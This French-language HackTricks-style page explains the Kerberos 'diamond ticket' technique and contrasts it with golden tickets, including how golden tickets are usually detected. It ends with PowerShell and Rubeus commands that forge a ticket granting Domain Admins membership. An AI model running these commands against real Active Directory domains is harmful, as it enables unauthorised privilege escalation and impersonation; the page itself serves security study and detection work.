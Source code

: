 # Diamond Ticket

{{#include ../../banners/hacktricks-training.md}}

## Diamond Ticket

**Comme un ticket en or**, un ticket en diamant est un TGT qui peut être utilisé pour **accéder à n'importe quel service en tant que n'importe quel utilisateur**. Un ticket en or est forgé complètement hors ligne, crypté avec le hash krbtgt de ce domaine, puis passé dans une session de connexion pour utilisation. Parce que les contrôleurs de domaine ne suivent pas les TGT qu'ils (ou ils) ont légitimement émis, ils accepteront volontiers les TGT qui sont cryptés avec leur propre hash krbtgt.

Il existe deux techniques courantes pour détecter l'utilisation de tickets en or :

- Recherchez des TGS-REQ qui n'ont pas de AS-REQ correspondant.
- Recherchez des TGT qui ont des valeurs absurdes, comme la durée de vie par défaut de 10 ans de Mimikatz.

Un **ticket en diamant** est créé en **modifiant les champs d'un TGT légitime qui a été émis par un DC**. Cela est réalisé en **demandant** un **TGT**, en **le décryptant** avec le hash krbtgt du domaine, en **modifiant** les champs souhaités du ticket, puis en **le recryptant**. Cela **surmonte les deux inconvénients mentionnés précédemment** d'un ticket en or parce que :

- Les TGS-REQ auront un AS-REQ précédent.
- Le TGT a été émis par un DC, ce qui signifie qu'il aura tous les détails corrects de la politique Kerberos du domaine. Même si ceux-ci peuvent être forgés avec précision dans un ticket en or, c'est plus complexe et sujet à des erreurs.
```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```
{{#include ../../banners/hacktricks-training.md}}
